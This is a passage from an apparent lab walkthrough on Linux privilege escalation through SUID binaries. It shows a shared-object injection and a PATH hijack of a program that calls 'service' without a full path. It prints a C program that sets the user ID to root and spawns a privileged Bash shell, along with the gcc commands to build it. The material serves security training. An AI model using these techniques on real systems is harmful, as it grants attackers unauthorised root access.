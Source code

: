 <figure><img src=".gitbook/assets/image (58).png" alt=""><figcaption><p>6</p></figcaption></figure>

We compile it:

`gcc -shared -fPIC -o /home/user/.config/libcalc.so /home/user/tools/suid/libcalc.c`

Execute it: `/usr/local/bin/suid-so` \


<figure><img src=".gitbook/assets/image (59).png" alt=""><figcaption><p>7</p></figcaption></figure>

### 12 - SUID / SGID Executables - Environment Variables

The `/usr/local/bin/suid-env` executable can be exploited due to it inheriting the user's PATH environment variable and attempting to execute programs without specifying an absolute path.

First, execute the file and note that it seems to be trying to start the apache2 webserver:

`/usr/local/bin/suid-env`

Run strings on the file to look for strings of printable characters:

`strings /usr/local/bin/suid-env`

One line ("service apache2 start") suggests that the service executable is being called to start the webserver, however the full path of the executable (/usr/sbin/service) is not being used.

Compile the code located at /home/user/tools/suid/service.c into an executable called service. This code simply spawns a Bash shell:

```c
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```

<figure><img src=".gitbook/assets/image (60).png" alt=""><figcaption><p>1</p></figcaption></figure>

`gcc -o service /home/user/tools/suid/service.c`

